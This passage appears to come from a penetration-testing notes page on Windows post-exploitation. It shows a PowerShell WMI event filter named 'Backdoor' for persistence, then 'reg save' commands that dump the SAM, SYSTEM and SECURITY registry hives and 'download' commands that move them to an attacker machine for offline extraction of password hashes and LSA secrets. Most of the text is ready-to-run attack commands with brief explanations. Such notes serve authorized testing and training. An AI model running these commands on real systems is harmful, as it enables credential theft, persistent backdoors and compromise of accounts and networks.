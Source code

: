 > [!example]-
>
> ```sh
> $filter = Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments @{
>   Name = "Backdoor"
>   EventNameSpace = "root\cimv2"
>   QueryLanguage = "WQL"
>   Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
> }
> ```

___




## Credential Harvesting

Download files to the attacker machine

> [!example]-
>
> ```sh
> download C:\Windows\Temp\sam
> ```
> ```sh
> download C:\Windows\Temp\system
> ```
> ```sh
> download C:\Windows\Temp\security
> ```

Dump [SAM](https://en.wikipedia.org/wiki/Security_Account_Manager)
registry hives

> [!example]-
>
> `HKLM\SAM` hive contains local account password hashes
>
> ```sh
> reg save HKLM\SAM C:\Windows\Temp\sam
> ```
>
> `HKLM\SYSTEM` contains boot keys used to decrypt password hashes
>
> ```sh
> reg save HKLM\SYSTEM C:\Windows\Temp\system
> ```
>
> `HKLM\SECURITY` contains [LSA](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)
> secrets which can contain service-accounts secrets, cached/secret credentials
> and keys an attacker can extract offline
>
> ```sh
> reg save HKLM\SECURITY C:\Windows\Temp\security
> ```
